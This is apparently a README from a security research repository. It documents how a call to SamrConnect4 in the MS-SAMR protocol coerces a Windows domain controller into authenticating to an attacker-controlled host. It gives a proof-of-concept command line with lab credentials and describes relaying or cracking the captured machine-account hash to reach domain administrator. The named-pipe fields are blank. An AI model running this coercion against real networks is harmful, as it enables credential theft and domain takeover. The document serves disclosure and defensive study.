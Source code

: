 # MS-SAMR - Remote call to SamrConnect4 (opnum 62)

## Summary

 - **Protocol**: [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380)

 - **Protocol UUID**: 12345778-1234-abcd-ef00-0123456789ac

 - **Protocol version**: 1.0

 - **SMB Named pipe**: ``

 - **Function name**: [`SamrConnect4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/c1b14e67-0f46-47a6-9fa7-0689d284afc9)

 - **Function operation number**: `62`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol (with uuid `12345778-1234-abcd-ef00-0123456789ac` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) and allows to call RPC functions of this protocol. We will then call the remote [`SamrConnect4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/c1b14e67-0f46-47a6-9fa7-0689d284afc9) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
SamrConnect4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long SamrConnect4(
   [in, unique, string] PSAMPR_SERVER_NAME ServerName,
   [out] SAMPR_HANDLE* ServerHandle,
   [in] unsigned long ClientRevision,
   [in] unsigned long DesiredAccess
 );
```

## References

 - Documentation of protocol [MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380

 - Documentation of function `SamrConnect4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/c1b14e67-0f46-47a6-9fa7-0689d284afc9